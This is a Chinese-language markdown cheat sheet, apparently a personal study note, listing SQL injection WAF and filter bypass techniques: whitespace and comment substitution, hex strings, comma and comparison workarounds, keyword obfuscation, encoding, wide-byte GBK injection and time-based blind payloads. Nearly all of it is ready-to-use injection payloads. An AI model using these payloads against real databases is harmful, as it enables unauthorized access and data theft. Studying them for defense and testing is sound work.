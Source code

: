 ```yaml
---
icon: pen-to-square
date: 2025-04-30
tags: 
title: web6--sql注入
category:
  - 项目
---
```

## 1.绕过空格`（注释符/* */，%a0）`：

　　两个空格代替一个空格，用Tab代替空格，%a0=空格：`

```
%20 %09 %0a %0b %0c %0d %a0 %00 /**/  /*!*/
```

最基本的绕过方法，用注释替换空格

## 2.括号绕过空格：

　　如果空格被过滤，括号没有被过滤，可以用括号绕过。

　　在MySQL中，括号是用来包围[子查询](https://so.csdn.net/so/search?q=%E5%AD%90%E6%9F%A5%E8%AF%A2&spm=1001.2101.3001.7020)的。因此，任何可以计算出结果的语句，都可以用括号包围起来。而括号的两端，可以没有多余的空格。

```
select(user())from dual where(1=1)and(2=2)
```

这种过滤方法常常用于[time](https://so.csdn.net/so/search?q=time&spm=1001.2101.3001.7020) based盲注,例如：
```
?id=1%27and(sleep(ascii(mid(database()from(1)for(1)))=109))%23
```

## 3.引号绕过（使用十六进制）：
　　会使用到引号的地方一般是在最后的where子句中。如下面的一条sql语句，这条语句就是一个简单的用来查选得到users表中所有字段的一条语句：
```
select column_name  from information_schema.tables where table_name="users"
```

　　这个时候如果引号被过滤了，那么上面的where子句就无法使用了。那么遇到这样的问题就要使用十六进制来处理这个问题了。
　　users的十六进制的字符串是7573657273。那么最后的sql语句就变为了：
　　
```
select column_name  from information_schema.tables where table_name=0x7573657273
```

##  4.逗号绕过（使用from或者offset）：
　　在使用盲注的时候，需要使用到substr(),mid(),limit。这些子句方法都需要使用到逗号。对于substr()和mid()这两个方法可以使用from to的方式来解决：
```
select substr(database() from 1 for 1);
select mid(database() from 1 for 1);
```
　　使用join：
```
union select 1,2     #等价于
union select * from (select 1)a join (select 2)b
```
　　使用like：
```
select ascii(mid(user(),1,1))=80   #等价于
select user() like 'r%'
```
　　对于limit可以使用offset来绕过：
```
select * from news limit 0,1
# 等价于下面这条SQL语句
select * from news limit 1 offset 0
```
## 5.比较符号（<>）绕过
过滤了<>：sqlmap盲注经常使用<>，使用between的脚本：
使用greatest()、least（）：（前者返回最大值，后者返回最小值）
　　同样是在使用盲注的时候，在使用二分查找的时候需要使用到比较操作符来进行查找。如果无法使用比较操作符，那么就需要使用到greatest来进行绕过了。
　　最常见的一个盲注的sql语句：

```
select * from users where id=1 and ascii(substr(database(),0,1))>64
```
　　此时如果比较操作符被过滤，上面的盲注语句则无法使用,那么就可以使用greatest来代替比较操作符了。greatest(n1,n2,n3,...)函数返回输入参数(n1,n2,n3,...)的最大值。
　　那么上面的这条sql语句可以使用greatest变为如下的子句:
```
select * from users where id=1 and greatest(ascii(substr(database(),0,1)),64)=64
```

### 使用between and：

   between a and b：

between 1 and 1; 等价于 =1

## 6.or and xor not绕过：

```

and=&&  or=||   xor=|   not=!
```
## 7.绕过注释符号（#，--(后面跟一个空格））过滤：
```
id=1' union select 1,2,3||'1
```
　　最后的or '1闭合查询语句的最后的单引号，或者：
```
id=1' union select 1,2,'3
```
## 8.=绕过：
　　使用like 、rlike 、regexp 或者 使用< 或者 >

## 9.绕过union，select，where等：
（1）使用注释符绕过：
　　常用注释符：
```
//，-- , /**/, #, --+, -- -, ;,%00,--a
```
　　用法：
```
U/**/ NION /**/ SE/**/ LECT /**/user，pwd from user
```
（2）使用大小写绕过：
```
id=-1'UnIoN/**/SeLeCT
```
（3）内联注释绕过：
```
id=-1'/*!UnIoN*/ SeLeCT 1,2,concat(/*!table_name*/) FrOM /*information_schema*/.tables /*!WHERE *//*!TaBlE_ScHeMa*/ like database()#
```
（4） 双关键字绕过（若删除掉第一个匹配的union就能绕过）：
```
id=-1'UNIunionONSeLselectECT1,2,3–-
```
## 10.通用绕过（编码）：
　　如URLEncode编码，ASCII,HEX,unicode编码绕过：
```
or 1=1即%6f%72%20%31%3d%31，而Test也可以为CHAR(101)+CHAR(97)+CHAR(115)+CHAR(116)。
```
## 11.等价函数绕过：
```
hex()、bin() ==> ascii()

sleep() ==>benchmark()

concat_ws()==>group_concat()

mid()、substr() ==> substring()

@@user ==> user()

@@datadir ==> datadir()

举例：substring()和substr()无法使用时：?id=1+and+ascii(lower(mid((select+pwd+from+users+limit+1,1),1,1)))=74　

或者：
substr((select 'password'),1,1) = 0x70
strcmp(left('password',1), 0x69) = 1
strcmp(left('password',1), 0x70) = 0
strcmp(left('password',1), 0x71) = -1
```
## 12.宽字节注入：
　　过滤 ' 的时候往往利用的思路是将 ' 转换为 \' 。

　　在 mysql 中使用 GBK 编码的时候，会认为两个字符为一个汉字，一般有两种思路：

　　（1）%df 吃掉 \ 具体的方法是 urlencode('\) = %5c%27，我们在 %5c%27 前面添加 %df ，形成 %df%5c%27 ，而 mysql 在 GBK 编码方式的时候会将两个字节当做一个汉字，%df%5c 就是一个汉字，%27 作为一个单独的（'）符号在外面：

id=-1%df%27union select 1,user(),3--+
　　（2）将 \' 中的 \ 过滤掉，例如可以构造 %**%5c%5c%27 ，后面的 %5c 会被前面的 %5c 注释掉。

一般产生宽字节注入的PHP函数：
   1.replace（）：过滤 ' \ ，将 ' 转化为 \' ，将 \  转为 \\，将 " 转为 \" 。用思路一。

   2.addslaches()：返回在预定义字符之前添加反斜杠（\）的字符串。预定义字符：' , " , \ 。用思路一

（防御此漏洞，要将 mysql_query 设置为 binary 的方式）

　 　3.mysql_real_escape_string()：转义下列字符：

\x00     \n     \r     \     '     "     \x1a
（防御，将mysql设置为gbk即可）

PCRE绕过：
union/*'+'a'*1000001+'*/select


参考链接：[【网络安全】SQL注入绕过技巧--CSDN](https://blog.csdn.net/Cairo_A/article/details/134882367)
